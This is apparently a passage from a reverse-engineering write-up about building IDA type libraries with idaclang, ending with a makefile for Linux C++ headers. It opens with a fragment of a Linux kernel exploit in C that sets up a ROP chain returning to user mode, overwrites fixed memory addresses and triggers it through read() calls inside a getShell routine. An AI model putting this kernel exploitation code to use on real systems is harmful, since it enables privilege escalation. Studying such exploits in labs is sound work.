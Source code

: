 ```c
        FIX_ADDR(0xffffffff82001637), // ret2user
        0, 0,
        user_ip, user_cs, user_rflags, user_sp, user_ss
    };

    memcpy(bak5, (void*)0x1337078, sizeof bak5);
    memcpy((void*)0x1337078, rop2, sizeof(rop2));	

    for (i = 0; i < 0x3000 / 0x20; ++i)
    {
        printf("%u\n", i);
        *(uint64_t*)(0x1337060) = FIX_ADDR(0xffffffff814bb6fc);
        read(fds[i], buf, 1);
    }

}
```

You maybe notice that I keep previous values before changing anything. Just try to remove:

```c
    *(uint64_t*)(0x1337060) = bak1;
    *(uint64_t*)(0x13380b0) = bak2;
    memcpy((void*)0x1338000, bak3, sizeof(bak3));
    memcpy((void*)0x1338090, bak4, sizeof(bak4));
    memcpy((void*)0x1337078, bak5, sizeof(bak5))
```

in `getShell`. You will know why I did that.


# TIL kernel module is oke. But what about the others?

For other open-source projects, I can't write the details. The building process depends on many things. Try to figure out yourself.

But I can give the final example to you how about building some stl classes in C++

linux_cpp.mak

```c
TIL_NAME = linux_cpp
TIL_DESC = "Linux C++"
INPUT_FILE = linux_cpp.h

SYSTEM_HEADERS = .\linux-headers\system-headers
USR_INCLUDE_HEADERS = .\linux-headers\usr_include_headers
LIBC_HEADERS = .\linux-headers\libc_headers
CLANG_ARGV = -target x86_64-pc-linux-gnu                               \
			-x c++                                                 \
			-I"$(SYSTEM_HEADERS)" \
			-I"$(USR_INCLUDE_HEADERS)\linux" \
			-I"$(USR_INCLUDE_HEADERS)\c++\11" \
			-I"$(USR_INCLUDE_HEADERS)\x86_64-linux-gnu" \
			-I"$(USR_INCLUDE_HEADERS)\x86_64-linux-gnu\c++\11" \
			-I"$(USR_INCLUDE_HEADERS)" \
			-I"$(LIBC_HEADERS)\c++\11" \
			-I"$(LIBC_HEADERS)"
			

include idaclang.mak
```
